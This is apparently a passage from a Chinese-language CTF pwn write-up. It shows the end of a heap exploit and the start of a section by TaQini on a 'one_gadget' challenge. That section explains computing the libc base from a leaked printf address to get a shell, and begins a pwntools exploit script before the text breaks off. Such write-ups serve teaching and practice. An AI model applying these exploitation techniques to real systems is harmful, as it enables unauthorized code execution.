 ```
dele(0) 



add(32, p64(magic)) 

add(32,p64(magic))

add(16,p64(magic)*2)



show(0) 

r.interactive()



```


## 一把梭(one_gadget) - TaQini

考察点：one_gadget

题目给出了 printf 的地址，由此可算得 libc 基址，然后找 one_gadget、计算 libc 中 one_gadget 地址

```
  printf("Give me your one gadget:");
  __isoc99_scanf("%ld", &v4);
  v5 = v4;
  v4();
```

v4 是个函数指针，scanf 的时候把 one_gadget 转成十进制输入即可 getshell。

```
#!/usr/bin/python
#__author__:TaQini

from pwn import *

local_file  = './one_gadget'
local_libc  = '/lib/x86_64-linux-gnu/libc.so.6'
remote_libc = './libc.so.6'

if len(sys.argv) == 1:
    p = process(local_file)
    libc = ELF(local_libc)
elif len(sys.argv) > 1:
    if len(sys.argv) == 3:
        host = sys.argv[1]
        port = sys.argv[2]
    else:
        host, port = sys.argv[1].split(':')
    p = remote(host, port)
    libc = ELF(remote_libc)

elf = ELF(local_file)

context.log_level = 'debug'
context.arch = elf.arch

se      = lambda data               :p.send(data)
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
```